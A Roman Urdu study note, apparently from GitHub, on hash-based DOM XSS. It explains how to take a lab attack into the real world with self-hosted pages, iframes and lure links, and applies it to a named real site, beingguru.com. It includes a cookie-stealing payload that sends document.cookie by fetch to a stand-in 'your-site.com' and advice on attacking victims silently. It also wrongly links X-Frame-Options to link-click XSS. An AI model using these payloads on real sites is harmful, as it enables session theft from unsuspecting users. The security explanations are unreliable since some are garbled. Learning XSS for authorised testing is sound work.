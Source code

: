 # Yeh kis tarah ki technique thi 

### ✅ Q1: Real website pe exploit server nahi hota, to phir link kaise banayein?
🔍 Jawaab: Bilkul sahi — real world mein koi "exploit server" nahi hota. Wo sirf lab practice ke liye hota hai.

### 🔑 Lekin real world mein:
Tu apni khud ki malicious page bana ke link send karta hai — jaise:

- GitHub pages
- 000webhost
- Netlify
- Ngrok (for localhost)
- Ya apna hosted page

🎯 Target user ko tu aise URL deta hai:

```<iframe src="https://target.com/#<xss_payload>" onload="..."></iframe>```

Aur phir victim jaise hi tera page kholta hai, target.com pe tera payload execute hota hai.

---

### ✅ Q2: Kaise pata chalega ke hash (#) use ho raha hai aur payload daal sakte hain?

🔍 Jawaab: Tera process ye hoga:

URL dekho — agar #something dikh raha hai (hash), toh pehla clue mil gaya.

Example: ```https://example.com/#about```

View source ya Inspect → Sources / Elements / Script mein dekho:

Kya location.hash likha hua hai?

Kya yeh kisi sink (jQuery selector, innerHTML, document.write, etc.) mein jaa raha hai?

### Example:

```var section = location.hash;```
```$(section).addClass("highlight");```

Agar aisa code mil gaya, test karo:

URL mein try karo:

```#<img src=x onerror=alert(1)>```

Agar XSS chali gayi, to samajh ja hash-based DOM XSS hai.

Ab agar tu victim ko attack karna chahta hai silently, to:

iframe bana ke usme payload embed karta hai

Jaise is lab mein tha

---

### ✅ Q3: print() function kya hota hai aur real website pe kab use hota hai?
📄 JavaScript ka print() function:

Yeh browser ka built-in function hai

Jab call karo → print dialog open hota hai

Iska koi security threat nahi, bas ek proof hai ke XSS execute ho gaya

❗Real world mein:
Tum print() nahi doge

Tum alert(1) ya fir:

```document.cookie```
```document.location```
```fetch('https://your-site.com/log?cookie=' + document.cookie)```

jaise payloads doge jo data chura lein

🔥 Tu print() tab use karta hai:
Jab alert() block ho jaye kisi browser setting se

Ya jab lab ya CTF bolta ho “print() use karo”

---

### Q: Nhi ab jaisy yeh hai website beingguru.com iska link yeh bna doon ga
```<iframe src="https://beingguru.com/#<xss_payload>" onload="..."></iframe>```
too ab iss main meray page ka url kidhar hai yeh too main direct beingguru.com ko targer kr rha hoon?

### Jawab:
Tu apna payload jaisy ```https://beingguru.com/#<img src=x onerror=alert(1)>``` iframe ke zariye kisi dusri website (jaise beingguru.com) pe
bhej sakta hai iss tarah ```<iframe src="https://beingguru.com/#<img src=x onerror=alert(1)>"></iframe>``` — lekin us iframe ko apni website
ya html file mein daalna zaroori hai. Wo jo HTML file tu banaega — wahi tera "exploit server" ban jaata hai real world mein. 
Uska link tu victim ko dega. Agar target site iframe allow karti hai aur hash ya search se XSS vulnerable hai, to payload execute ho jata hai.

Main apni website pr gya wahan HTML main aik link bnahea iss tarah

```<a href="https://beingguru.com/#<img src=x onerror=alert(1)>">Click here</a>``` ab yeh link webpage pr **Click here** ky naam sy show hoga jab victim **Click here**
pr click karega too wo beingguru.com website pr chala jaye ga or agr wo website vulnerable hue jaisy  X-Frame-Options: DENY ya SAMEORIGIN headers nahi lagaye hue hoe
too XSS chal jaye ga

---

### Real-World Tip for Pentesters:
Sabse pehle URL observe karo: #, ?, etc.

Inspect source: location.hash, location.search ka use ho raha hai ya nahi

